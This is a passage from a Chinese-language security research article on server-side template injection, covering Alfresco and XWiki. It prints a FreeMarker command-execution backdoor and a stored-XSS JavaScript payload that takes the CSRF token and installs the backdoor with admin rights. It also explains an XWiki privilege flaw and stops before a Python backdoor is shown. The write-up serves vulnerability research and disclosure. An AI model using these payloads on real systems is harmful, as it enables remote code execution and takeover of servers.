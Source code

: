 案例1:Alfresco
------------

Alfresco 是一个CMS系统。低权限用户可以借助一个存储XSS漏洞，利用FreeMarker模板注入方式获取WebShell。前面创建的FreeMarker后门可以直接使用，但是我把它扩展成了用请求参数作为命令的形式：

```
<#assign ex="freemarker.template.utility.Execute"?new()>
${ ex(url.getArgs())}

```

低权限用户没有权限编辑模板，但是可以通过存储XSS利用管理员账户来安装这个后门。我编写了下面的JavaScript代码来完成这种攻击：

```
tok = /Alfresco-CSRFToken=([^;]*)/.exec(document.cookie)[1]; 
tok = decodeURIComponent(tok) do_csrf=new XMLHttpRequest(); do_csrf.open("POST","http://"+document.domain+":8080/share/proxy/alfresco/api/node/workspace /SpacesStore/59d3cbdc-70cb-419e-a325-759a4c307304/formprocessor",false); do_csrf.setRequestHeader('Content-Type','application/json; charset=UTF-8'); do_csrf.setRequestHeader('Alfresco-CSRFToken',tok); do_csrf.send('{"prop_cm_name":"folder.get.html.ftl","prop_cm_content":"&lgt;#assign ex=\\"freemarker.template.utility.Execute\\"?new()> ${ ex(url.getArgs())}","prop_cm_description":""}');

```

模板的GUID是有差别的，但是低权限的用户也可以很容易的通过“数据字典”获得。此外和其他应用的管理员可以控制整个web服务器不同，alfresco系统管理员可以做的操作是有严格限制的。

![pic10](http://drops.javaweb.org/uploads/images/3a3418191538d45fdeaec9d18fa878bcd584c913.jpg)

案例2:XWiki Enterprise
--------------------

XWiki Enterprise是一个专业wiki程序。在默认配置情况下，匿名的用户可以注册用户并且编辑wiki页面时可以嵌入Velocity模板代码。这种特性让它成为了模板注入的理想目标。然而，前面创建的Velocity payload是不能用的，原因是$class在这里是不能使用的。

XWiki对于Velocity是这样说的：

![pic11](http://drops.javaweb.org/uploads/images/df6ffa910048637b6036a79b01c12e6a4aa2e9e8.jpg)

对应翻译：

XWiki沙盒通过提供安全的对象访问，并且每个API调用都会检测权限，禁止对未授权的资源进行操作，所以不需要特别的权限控制。其他脚本语言需要脚本语言编写人有权限执行他们，但是除此之外，访问的是服务器上的所有资源。  
…… 没有权限就不能实例化对象，只能使用文字和XWiki APIs提供的安全的资源。如果按照XWiki提供的正确方式，XWiki可以安全的开发出大量的应用来。  
…… 浏览包含脚本的页面是不需要拥有Programming权限的，只有在保存的时候需要。 http://platform.xwiki.org/xwiki/bin/view/DevGuide/Scripting

换句话来说，XWiki不仅支持Velocity，也支持Groovy和Python这种没有沙盒的脚本。然而这种操作需要programming权限。这是个好事，因为它把提权转变成了任意代码执行。由于我们只能使用Velocity，我们必须使用XWiki API。

$doc类又一些很有趣的方法，聪明的读者可能会发现一个缺陷：

![pic12](http://drops.javaweb.org/uploads/images/c7d6dfd7c7bd30426b7e5119601ec7bf932a561f.jpg)

一个wiki页面的内容作者是最后一个编辑它的用户。`save`方法和`saveAsAuthor`方法的不同说明，`save`方法不会用作者身份保存内容，而是用当前访问页面用户的身份。换句话说，一个低权限用户可以创建一个wiki页面，当拥有programming权限的用户查看并且编辑保存这个页面的时候脚本就会执行。我们来注入下面这个Python后门：
